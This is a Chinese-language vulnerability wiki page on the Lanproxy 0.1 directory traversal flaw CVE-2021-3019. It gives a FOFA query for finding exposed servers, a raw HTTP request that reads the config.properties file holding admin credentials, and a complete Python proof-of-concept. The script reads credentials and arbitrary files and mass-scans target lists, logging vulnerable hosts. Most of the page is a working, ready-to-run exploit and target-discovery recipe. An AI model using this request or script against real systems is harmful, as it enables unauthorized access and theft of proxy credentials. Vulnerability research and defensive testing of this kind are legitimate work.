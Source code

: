 # Lanproxy 目录遍历漏洞 CVE-2021-3019

## 漏洞描述

Lanproxy是一个将局域网个人电脑、服务器代理到公网的内网穿透工具，支持tcp流量转发，可支持任何tcp上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面等等）本次Lanproxy 路径遍历漏洞 (CVE-2021-3019)通过../绕过读取任意文件。该漏洞允许目录遍历读取/../conf/config.properties来获取到内部网连接的凭据。

## 漏洞影响

> [!NOTE]
>
> Lanproxy 0.1

# FOFA

> [!NOTE]
>
> header= "Server: LPS-0.1"

## 环境搭建

https://github.com/ffay/lanproxy/

## 漏洞复现

打开登录页面如下

![](http://wikioss.peiqi.tech/vuln/lanproxy-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

使用Burp抓包发送如下请求

```html
GET /../conf/config.properties HTTP/1.1
Host: xxx.xxx.xxx.xxx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![](http://wikioss.peiqi.tech/vuln/lanproxy-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

成功在配置文件中读取 账号密码

![](http://wikioss.peiqi.tech/vuln/lanproxy-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

试着读取其他敏感文件

![](http://wikioss.peiqi.tech/vuln/lanproxy-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/lanproxy-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)



## 漏洞利用POC

[Github:CVE-2021-3019](https://github.com/FanqXu/CVE-2021-3019/)

```python
#!/usr/bin/env python3
# -*- encoding: utf-8 -*-
'''
@File    :   urllib.py
@Time    :   2021/01/10 21:59:32
@Author  :   _0xf4n9x_
@Version :   1.0
@Contact :   fanq.xu@gmail.com
@Desc    :   None
'''


import sys
import argparse
import os
from urllib import request
from urllib import error

banner = """
 ######  ##     ## ########     #######    #####    #######    ##       #######    #####    ##   #######  
##    ## ##     ## ##          ##     ##  ##   ##  ##     ## ####      ##     ##  ##   ## ####  ##     ## 
##       ##     ## ##                 ## ##     ##        ##   ##             ## ##     ##  ##  ##     ## 
##       ##     ## ###### ##### #######  ##     ##  #######    ## ##### #######  ##     ##  ##   ######## 
##        ##   ##  ##          ##        ##     ## ##          ##             ## ##     ##  ##         ## 
##    ##   ## ##   ##          ##         ##   ##  ##          ##      ##     ##  ##   ##   ##  ##     ## 
 ######     ###    ########    #########   #####   ######### ######     #######    #####  ###### #######  
                                                                                Author: _0xf4n9x_"""

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4080.0 Safari/537.36 Edg/82.0.453.0"}


def readConf(url):
    """
    默认读取配置文件，并通过能否读取配置文件来判断是否存在漏洞
    """
    config = [
        'config.server.bind',
        'config.server.port',
        'config.admin.username',
        'config.admin.password'
    ]
    path = "/../conf/config.properties"
    confUrl = url + path
    r = request.Request(confUrl, headers=headers)
    try:
        with request.urlopen(r, timeout=10) as resp:
            confContent = resp.read().decode('utf-8')
            for i in config:
                if i not in confContent:
                    print("[-] " + url + " is not vulnerable")
                    return 'Bye :('
            print("[+] " + url + " is vulnerable! :)")
            return confContent
    except ConnectionResetError:
        print("[-] " + url + " Connection reset by peer")
    except error.HTTPError as e:
        print("[-] " + url + e.code + e.reason)
    except error.URLError as e:
        print("[-] " + url + e.code + e.reason)
    except:
        print("[-] " + url + " is not vulnerable")
    return 0


def readOtherFile(url, path):
    """
    读取任意其他文件
    """
    jumpSym = "/../../../../../../../../.."
    fullUrl = url + jumpSym + path
    r = request.Request(fullUrl, headers=headers)
    with request.urlopen(r, timeout=10) as resp:
        fileContent = resp.read().decode('utf-8')
        print(fileContent)


def run(url, path="/../conf/config.properties"):
    if os.path.isfile(url) == False:
        # if 'http' not in url:
        #     url = 'http://' + url
        url = 'http://' + url.replace('http://', '').replace('/', '')
        if path == "/../conf/config.properties":
            print(readConf(url))
        else:
            if readConf(url) not in [0, 'Bye :(']:
                readOtherFile(url, path)
    else:
        urls = []
        with open(url) as target:
            urls = target.read().splitlines()
            for url in urls:
                # if 'http' not in url:
                #     url = 'http://' + url
                url = 'http://' + url.replace('http://', '').replace('/', '')
                if readConf(url) not in [0, 'Bye :(']:
                    with open("success.txt", "a+") as f:
                        f.write(url + "\n")
            f.close()


def main():
    parser = argparse.ArgumentParser(
        description="CVE-2021-3019 lanproxy arbitrary file read vulnerability detection POC")
    parser.add_argument('-u', '--url', type=str,
                        help="test a single website")
    parser.add_argument('-r', '--read', type=str,
                        help="this parameter is followed by the file name to be read, the configuration file is read by default")
    parser.add_argument('-f', '--file', type=str,
                        help="perform vulnerability checks on multiple websites in a file, and the vulnerable websites will be output to the success.txt file")
    args = parser.parse_args()

    if len(sys.argv) <= 1:
        parser.print_help()
    elif sys.argv[1] in ['-u', '--url']:
        if len(sys.argv) == 3:
            run(args.url)
        elif len(sys.argv) == 5:
            run(args.url, args.read)
    elif sys.argv[1] in ['-f', '--file']:
        run(args.file)


if __name__ == "__main__":
    print(banner)
    main()
```

![](http://wikioss.peiqi.tech/vuln/lanproxy-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> Lanproxy_Arbitrary_File_Read_CVE-2021-3019

![](http://wikioss.peiqi.tech/vuln/lanproxy-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)



